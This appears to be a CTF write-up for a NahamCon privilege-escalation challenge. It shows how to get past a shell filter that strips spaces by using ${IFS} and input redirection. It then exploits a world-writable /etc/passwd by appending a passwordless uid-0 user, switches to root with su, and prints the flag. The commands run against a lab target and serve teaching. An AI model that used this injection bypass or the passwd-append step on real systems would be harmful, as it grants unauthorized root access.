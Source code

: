 # 题目描述

I've never felt this close to a character before. I hope the feeling is mutual...

**Escalate your privileges and retrieve the flag out of root's home directory.**

# 解决方案

This was a privilege escalation challenge, and the reason for the name becomes immediately obvious.

```shell
kali@transistor:~/ctf/nahamcon$ nc challenge.nahamcon.com 31595
user@challenge:~$ ls -la
/bin/sh: 1: ls-la: not found
```

It seems like they're removing the spaces between the parts of our commands. This isn't really that hard to bypass if you're familiar with [Command Injection bypasses](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space). In Linux, the [`$IFS`](https://bash.cyberciti.biz/guide/$IFS) environment variable is a special variable that can be used to split up words in a line, but becomes especially useful when spaces are banned.

> At this point, it's super easy to automate creating these commands instead of typing them out everytime. Just use something like Python or CyberChef to take in an input, and then replace all spaces with `${IFS}`. It's not perfect, because working with quotes will be finnicky, but the privesc doesn't really require that.
```shell
user@challenge:~$ ls${IFS}-la
total 28
dr-xr-xr-x 1 user user 4096 Dec 11 19:23 .
drwxr-xr-x 1 root root 4096 Dec 11 19:23 ..
-rw-r--r-- 1 user user  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 user user 3526 Mar 27  2022 .bashrc
-rw-r--r-- 1 user user  807 Mar 27  2022 .profile
-r-xr-xr-x 1 root root 1885 Dec 11 19:22 .server.py
-rw-r--r-- 1 root root  174 Dec 11 19:22 README.md
```

We can also read files without using spaces using redirection operators.
```shell
user@challenge:~$ cat<README.md
Your objective to escalate your privileges
and retrieve the flag in /root/flag.txt.
If you look around the filesystem, you may
find some odd permissions you can leverage :)
```

Reading the `.server.py` we understand what we're up against.
```python
user@challenge:~$ cat<./.server.py
#!/usr/bin/env python3
import sys
import textwrap
import socketserver
import string
import readline
import threading
from time import *
from colorama import *
import subprocess
prompt = f"{Fore.GREEN}{Style.BRIGHT}user@challenge{Fore.RESET}{Style.NORMAL}:{Fore.CYAN}{Style.BRIGHT}~{Fore.RESET}{Style.NORMAL}$ "
class Service(socketserver.BaseRequestHandler):
    def handle(self):
        while ( 1 ):
            command = self.receive(prompt)
            no_spaces = command.replace(" ","")
            no_spaces = no_spaces.replace("\t","")
            no_spaces = no_spaces.replace("\n","")
            if no_spaces == "exit":
                return
            print(no_spaces)
            p = subprocess.Popen(no_spaces, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            stdout, stderr = p.communicate()
            self.send(stderr + stdout)
    def send(self, string, newline=True):
        if type(string) is str:
            string = string.encode("utf-8")
        if newline:
            string = string + b"\n"
        self.request.sendall(string)
    def receive(self, prompt="> "):
        self.send(prompt, newline=False)
        return self.request.recv(4096).strip().decode("utf-8")
class ThreadedService(socketserver.ThreadingMixIn, socketserver.TCPServer, socketserver.DatagramRequestHandler):
    pass
def main():
    port = 1337
    host = '0.0.0.0'
    service =  Service
    server = ThreadedService((host, port), service)
    server.allow_reuse_address = True
    server_thread = threading.Thread(target=server.serve_forever)
    server_thread.daemon = True
    server_thread.start()
    print( "Server started on " + str(server.server_address) + "!")
    # Now let the main thread just wait...
    while ( True ): sleep(10)
if __name__ == "__main__":
    main()
```

So it's just a noninteractive shell. Taking the hint from the README, I looked for SUID files, what files I owned, and what files should have specific permissions when I stumbled across this.

```shell
user@challenge:~$ ls${IFS}-la${IFS}/etc/passwd
-rw-rw-rw- 1 root root 959 Dec 11 19:23 /etc/passwd
```

The `/etc/passwd` has a record of all of the users on the machine. Despite it being the "password" file, all of the password hashes are now stored in `/etc/shadow` (although who knows about legacy systems). That being said, if you can write to the `/etc/passwd` file, you can basically add a new user with root privileges, because the system will be none the wiser if there's just a new entry from nowhere.

> Reference: [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd)
Since our shell is not interactive, we cannot use the password prompt. Any commands that would let us automate that are not installed on the system. We can, however, add a user with no password, and then use `su` to run a command as another user.

```shell
user@challenge:~$ echo${IFS}'dummy::0:0::/root:/bin/bash'${IFS}>>/etc/passwd
user@challenge:~$ su${IFS}-${IFS}dummy${IFS}-c${IFS}"whoami"
root
```

Using the file read trick from before, we read the flag.

```shell
user@challenge:~$ su${IFS}-${IFS}dummy${IFS}-c${IFS}"cat</root/flag.txt"
flag{59af40c07bc6f02b457aa4c15543da2d}
```